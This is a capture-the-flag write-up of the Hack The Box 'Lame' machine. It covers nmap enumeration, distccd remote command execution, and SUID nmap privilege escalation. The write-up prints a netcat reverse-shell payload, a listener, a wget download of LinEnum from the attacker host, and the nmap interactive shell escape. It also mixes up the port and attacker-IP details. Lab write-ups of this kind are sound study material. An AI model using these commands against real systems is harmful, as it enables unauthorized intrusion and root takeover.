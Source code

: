 # HTB-Writeups




   ![image of bashed](/assets/newlamepic.png)


### Enumeration (Information Gathering):
Starting off with an nmap scan to check which ports are open:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb (netbios)

After doing a full port scan using:
`nmap -sC -sV -oA nmap/lamefull 10.10.10.3 --max-retries 0`, we get:


![nmap scan](/assets/Lamenmap.png)



Ports open after **full port** scan:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb

As we can see that port **21/ftp** is open, we can try and connect to it via ftp:
`ftp 10.10.10.3`
After enumerating the ftp server, we could not find anything interesting.
Check out the ftp, ssh, smb versions to see if they are vulnerable, and after googling we find out that they aren't vulnerable.
But after checking out port 3432 distccd, we found that it is vulnerable to a Remote Command Execution. There seems to be an nmap script avaiable for this vulnerability.
There is an nmap script avaiable for this and you can find it here:
[distcc-cve2004-2687 - RCE](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html)

### Exploitation

Using the nmap script:
`sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd=cmd"`

Putting out reverse shell payload in place of the cmd argument:
cmd = `/bin/nc -e /bin/sh 10.10.14.9 4445`

Setting up a Netcat listener on our attack machine to catch the shell:
`sudo nc -nlvp 4445`

After executing nmap script, we have successfully got a Reverse shell:

![lame rev shell](/assets/lamerevshell.png)

And we have the **USER SHELL!!!!**

Hence, we can grab the user flag from the directory: /home/makis/

### Privilege Escalation
Running our basic commands for privilege escalation such as checking for sudo rights, checking the kernel, OS version, checking if we belong to any admin groups, etc.
As we find nothing from basic enumeration, we setup a Python Web Server on our machine and get the LinEnum.sh script on our host machine.
Using `wget http://10.10.14.2/LinEnum.sh` to download the script and running `chmod +x LinEnum.sh` to make it executable.

After running the script we see that we have the suid bit enabled on the nmap binary.
SUID bit enabled means that if a file's SUID bit is enabled we can run that file as root.
![nmap suid bit enabled](/assets/privesc.png)

Using nmap in interactive mode:
`sudo nmap --interactive` (important to use sudo as we want to execute the binary as root)
Now running !sh to run bash from nmap.

![root user](/assets/root.png)

And we have got **ROOT!!!!**

